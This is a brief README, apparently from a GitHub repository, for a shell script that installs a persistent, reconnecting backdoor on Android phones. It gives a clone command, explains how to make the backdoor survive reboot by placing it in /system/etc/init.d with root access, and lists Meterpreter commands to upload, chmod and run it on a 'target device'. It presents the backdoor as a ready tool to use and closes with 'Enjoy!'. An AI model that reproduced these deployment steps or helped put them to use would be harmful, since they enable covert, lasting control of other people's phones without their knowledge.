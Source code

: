 # My persistant android backdoor

## Installation
```
git clone https://github.com/derosploit/android-persistant.sh/
```
## Description
This scripts creates a persistent reconnecting backdoor on android phones
when run this script is active until reboot on non-rooted devices
To make it persistent on reboot
copy the persistant.sh in the /system/etc/init.d folder N.B this requires root permission on device
## Implementation
This script is implemented using for metersploit
## Requirements
a running meterpreter session on target device
## Usage
upload the script in the device and enjoy

Assume this is our meterpreter session 
meterpreter > upload persistent.sh
meterpreter > shell
chmod 755 persistent.sh
./persistent.sh
##Enjoy!

